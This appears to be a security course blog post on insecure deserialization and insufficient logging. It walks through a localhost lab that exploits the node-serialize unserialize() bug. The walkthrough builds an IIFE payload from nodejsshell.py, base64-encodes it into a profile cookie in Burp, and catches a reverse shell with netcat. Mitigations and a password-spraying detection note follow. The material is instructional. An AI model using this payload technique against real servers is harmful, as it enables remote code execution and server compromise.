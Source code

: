 ```yaml
---
layout: post
title: Insecure Deserialization & Insufficient Logging & Monitoring
---
```


# Insecure Deserialization
Serialization is the process where an object is encoded into a byte-stream which can be transferred across a network. It is then de-serialized to recover the object. Depending on the application, serialized objects may include executable instructions or authentication credentials. These serialized objects may be modified by an adversary. If the application is not able to detect tampering, it can allow the adversary to achieve effects like remote code execution or privilege escalation on the server.

We will be exploiting a known vulnerability of node-serialize discussed in last week's post.      
>**Vulnerability:** Untrusted data passed into unserialize() function in node-serialize module can be exploited to achieve arbitrary code execution by passing a serialized JavaScript Object with an Immediately invoked function expression (IIFE). Specifically the vulnerability in the web app is that it reads a cookie named profile from the HTTP request, perform base64 decode of the cookie value and passes it to unserialize() function. As cookie is an untrusted input, an attacker can craft malicious cookie value to exploit this vulnerability. <sub>[1]</sub>

### Exercise 
**Note:** Since this exercise gains access into the server we are unable to exploit the live vulnerable web app hosted in Heroku as they have added security on their back-end to prevent these kinds of attacks.    

1. Setup: 
- Clone or download https://github.com/ajinabraham/Node.Js-Security-Course.git
- On a seperate folder clone or download https://github.com/ashwinsawant/sbr.git and checkout branch Deserial. Run command 'npm start' to run web app locally on port 3000. 

     ![Local Host](/images/week8_npmStart.JPG)

2. Open Burp, go to Proxy > Options and make sure 127.0.0.1:8080 Proxy Listener is enabled. Then go to Firefox and change manual proxy settings to match Burp's.

     ![Burp Proxy](/images/week8_Proxy.JPG)

3. On Burp go to Proxy > Intercept and make sure Intercept is on. On Firefox go to localhost:3000/login and enter the following credentials at the login page: **Email:** cocho@gmail.com and **Password:** password      
Read carefully after GET you will see an api/login click Forward and then you will see a GET /setCookies, this is the request we are interested in.  We have just intercepted traffic and now have access to the encryted cookie along with the request format. Click on Action button and Send to Repeater. We will use later on in the process.   

   ![Burp Intercept](/images/week8_Cookie.JPG)

4. Go to the Node.Js-Security-Course folder and open the terminal and run the following command: `python nodejsshell.py 127.0.0.1 3333`
Copy text everything starting at `eval(`  and paste it in Burp's Decoder tab. 

   ![Python Scrypt](/images/week8_python.JPG)
   
5. Copy paste or type the following on the Decoder tab before eval `{"rce":"_$$ND_FUNC$$_function (){ ` and copy paste or type `}()"}` at the end after 10)) Click on Encode as and select Base 64 to get a long string of characters. 

    ![Decoder](/images/week8_base64.JPG)

6. Open a terminal and type `nc -l 127.0.0.1 3333`.  Looks like nothing is happening but give it a minute while we run the rest of the exploit. 

7. Copy the encoded string and got to the Repeater tab, replace the red text after profile= with the string and click Send. You should get a Response 302 Found and a message Redirecting like the image below. 

   ![Repeater Redirecting](/images/week8_Redirecting.JPG)   
   
8. Go back to the terminal where you entered `nc -l 127.0.0.1 3333` and you will see a Connected! message. Here are a few commands you can try      
`ls` list directory contents.      
`whoami` It displays the username of the current user.      
`pwd` Print Working Directory. It prints the path of the working directory, starting from the root.     
`uname -r` Used to get information about current operating system. In this case the Linux kernel version.     
`cat /etc/os-release` Name, version of Operating System.     
`exit` Get out of shell and back into working directory.     

   ![Shell](/images/week8_Connected.JPG)   

**[Video of Insecure Deserialization on localhost](https://media.oregonstate.edu/media/t/0_1e1lfvl2)**

### Analysis
Do not to accept serialized objects from untrusted sources or to use serialization mediums that only permit primitive data types. If that is not possible, consider the following:     
- Implementing integrity checks such as digital signatures on any serialized objects to prevent hostile object creation or data tampering.
- Enforcing strict type constraints during deserialization before object creation as the code typically expects a definable set of classes. Bypasses to this technique have been demonstrated, so reliance solely on this is not advisable.
- Isolating and running code that deserializes in low privilege environments when possible.
- Logging deserialization exceptions and failures, such as where the incoming type is not the expected type, or the deserialization throws exceptions.
- Restricting or monitoring incoming and outgoing network connectivity from containers or servers that deserialize.
Monitoring deserialization, alerting if a user deserializes constantly. <sub>[2]</sub>

### References
1. <https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>
2. <https://hdivsecurity.com/owasp-insecure-deserialization> 
3. <https://github.com/ajinabraham/Node.Js-Security-Course>
4. <https://expressjs.com/en/resources/middleware/cookie-parser.html>
5. <https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/>

# Insufficient Logging & Monitoring
This is different from the rest of the attacks we tried in that it doesn't automatically allow compromise but prevents the host from detecting compromise or attempts at compromising it. For example, we implemented a system where any account gets locked out after a certain number of failed login attempts. However, an attacker trying a single common password against numerous logins will not be detected by this technique because it will only increment the failure counter by one on each account. This attack can be detected by logging and monitoring the number of login attempts from a particular IP address. 
